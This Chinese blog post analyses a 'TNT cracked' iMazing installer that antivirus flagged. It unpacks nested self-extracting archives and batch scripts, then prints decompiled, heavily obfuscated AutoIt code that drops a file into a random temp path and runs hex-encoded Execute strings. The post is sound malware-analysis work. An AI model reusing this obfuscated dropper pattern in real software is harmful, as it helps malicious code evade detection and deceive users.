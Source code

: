 ```yaml
---
title: 分析iMazing_TNTCracked
author: Misaka
date: 2021-09-27 13:56:01 +0800
categories: [Analyze]
tags: [Analyze, Virus, Windows]
math: true
---
```


分析iMazing_TNTCracked

本文来源：[Moeomu的博客](/posts/分析iMazing_TNTCracked/)

## 缘起

想找个爱思助手的备份，找上了iMazing，兴起找到了TNT破解版的iMazing，从[此链接](https://www.tntmac.com/tag/imazing-for-mac-crack/)下载适用于Windows的iMazing后却发现被Windows11自带的杀毒软件报毒，于是起了想分析这个破解版的兴趣

## 分析

### 1、概览

![解压](https://i.loli.net/2021/10/11/o4TszgPHIcYji2G.png)

- 如图所示，解压后是一个官方安装包以及一个`Create__Fix.exe`，正是这个文件被报毒，以此展开调查

### 2、Create__Fix.exe

![压缩包](https://i.loli.net/2021/10/11/LXSnr6B7TtgvuRK.png)

- 拖入DIE，看到这个文件似乎是个压缩包，将它解压，内容如图所示

![又一个压缩包](https://i.loli.net/2021/10/11/lfKRim4QrjzaUYP.png)

- 其中有一个`Fix.exe`以及一个`iMazing_fix.bat`，但是这个bat打开是乱码，使用C32Asm来看一下十六进制格式内容，如图所示

![清楚了](https://i.loli.net/2021/10/11/cxYuqhaTLU9vElP.png)

- 这不是看的很清楚嘛，这个`iMazing_fix.bat`的运行流程如下
  - 第一步，运行`Fix.exe`，参数是`pt147147`和`-d%dir%`，这个写法让我感觉这是个压缩文件了，貌似还真是
  - 第二步，等待一秒
  - 第三步，删除`Fix.exe`和`iMazing_fix.bat`
- 我不禁好奇，是什么原因让它向千层饼看齐，一层又一层没完没了
- 如图所示，不出意料它又是一个RAR压缩文件

![不是吧又来](https://i.loli.net/2021/10/11/F9l2jZUYENfCuHz.png)

### 3、Fix.exe

- 解压缩，需要密码，我猜密码是`t147147`，哦猜对了，TNT团队并没有定制自己的解压工具，用WinRAR的sfx自解压模块传参解压，解压后如图所示

![又一个解压](https://i.loli.net/2021/10/11/lm6yzf5asNHcRbS.png)

- 解压后的文件分为三个，bat脚本依旧是被加密的状态，再次使用十六进制编辑器阅读它
- 经过DIE分析，`data.bin`是个可执行程序，将它重命名为`data.exe`
- 经过DIE分析，`v1`是个二进制文件，暂时无法识别

### 4、Created_By_TNT_Team.bat

![Created_By_TNT_Team.bat](https://i.loli.net/2021/10/11/GmCj7cvfk8N62WB.png)

- 如图所示，这个脚本文件做的操作是以下几步
  - 第一步，清理屏幕
  - 第二步，关闭回显
  - 第三步，运行`data.bin`这个可执行程序，参数是`v1`
  - 第四步，删除`v1`、`data.bin`、`Created_By_TNT_Team.bat`

### 4、data.exe和v1

- 这个`data.exe`重命名后就十分明了，它是AutoIt3的脚本运行器，那么`v1`不出所料就是一个AutoIt3的脚本，后缀应该是`a3x`
- `v1`是编译完成的au3脚本，我在GitHub上找到了一些反编译器，例如[UnAutoIt](https://github.com/x0r19x91/UnAutoIt)
- 如图所示，解压完毕，从v1中释放出来一个`iMazing.exe`以及一个脚本，此脚本混淆极其严重，几乎无法阅读
- 被修改后的`iMazing.exe`还附带原始的数字签名，尽管它已经失效，看起来它将会本地修改`iMazing.exe`，应该算是一个文件补丁，但是看起来哈希没什么变化...

![extra](https://i.loli.net/2021/10/11/9yFOsWujGwPJmQ6.png)

> 以下是反编译出来的一些有用的代码

```AutoIt3
Func a2f00001b21_()
    For $ax0x0xa = 0x1 To 0x5
        Local $a2f00001b21sz_ = a2f00001b21x_()
        FileInstall("d3c0ef51c80f467bc9002bbf93fcb10d0c917dbaae819ccd925e2f8902d3c9c5229702964c538605098cce34d2e9cc90ce0618992ba26caea18b5b5ccd9dd0acf02370c4bc004868283b8067c8309862" & _
            "cf2f70d92252928d02af9b1c7d80c3303522b08f2", $a2f00001b21sz_, 0x1)
        Global $a2f00001b21, $os = Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
            "3533333337333433373332333633393336343533363337333533333337333033363433333633393337333433323338333433363336333933363433333633353335333233363335333633313336333433" & _
            "3233383332333433343331333333323334333633333330333333303333333033333330333333313334333233333332333333313337333333373431333534363332333933323433333233373337343333" & _
            "33333333333338333333373334333933323337333234333333333133323339323732393239272929"))
        If IsArray($os) And $os[0x0] >= 0x46da Then ExitLoop
        Sleep(0xa)
    Next
    Execute(BinaryToString("0x457865637574652842696E617279746F737472696E67282730783435373836353633373537343635323834323639364536313732373937343646373337343732363936453637323832373330373833" & _
        "3333313332343233343336333633393336343333363335333433343336333533363433333633353337333433363335333233383332333433343331333333323334333633333330333333303333333033" & _
        "3333303333333133343332333333323333333133373333333734313335343633323339323732393239272929"))
EndFunc    ; -> a2f00001b21_

Func a2f00001b21x_()
    Local $a2f00001b21s1_ = a2f00001b21("4054656D70446972"), $a2f00001b21s3_ = a2f00001b21("31"), $a2f00001b21s4_ = a2f00001b21("5c"), $a2f00001b21s5_ = a2f00001b21("5c"), $a2f00001b21s6_ = a2f00001b21("37"), $a2f00001b21s8_ = a2f00001b21("3937"), $a2f00001b21s9_ = a2f00001b21("313232"), $a2f00001b21s7_ = a2f00001b21("31"), $a2f00001b21sa_
    Local $a2f00001b21s2_ = Execute($a2f00001b21s1_)
    If StringRight($a2f00001b21s2_, Number($a2f00001b21s3_)) <> $a2f00001b21s4_ Then $a2f00001b21s2_ = $a2f00001b21s2_ & $a2f00001b21s5_
    SRandom(Number(StringRight(TimerInit(), 0x4)))
    Do
        $a2f00001b21sa_ = ''
        While StringLen($a2f00001b21sa_) < Number($a2f00001b21s6_)
            $a2f00001b21sa_ = $a2f00001b21sa_ & Chr(Random(Number($a2f00001b21s8_), Number($a2f00001b21s9_), Number($a2f00001b21s7_)))
        WEnd
        $a2f00001b21sa_ = $a2f00001b21s2_ & $a2f00001b21sa_
    Until Not FileExists($a2f00001b21sa_)
    Return ($a2f00001b21sa_)
EndFunc    ; -> a2f00001b21x_

Func a2f00001b21($a2f00001b21)
    Local $a2f00001b21_
    For $x = 0x1 To StringLen($a2f00001b21) Step 0x2
        $a2f00001b21_ &= Chr(Dec(StringMid($a2f00001b21, $x, 0x2)))
    Next
    Return $a2f00001b21_
EndFunc    ; -> a2f00001b21
```

## 结论

- 它应该什么都没干仅仅只是释放了一个可执行文件，但是这个释放方式实在是令人奇怪
- 它最后释放的`iMazing.exe`是并未破解的版本，事情更加奇怪了
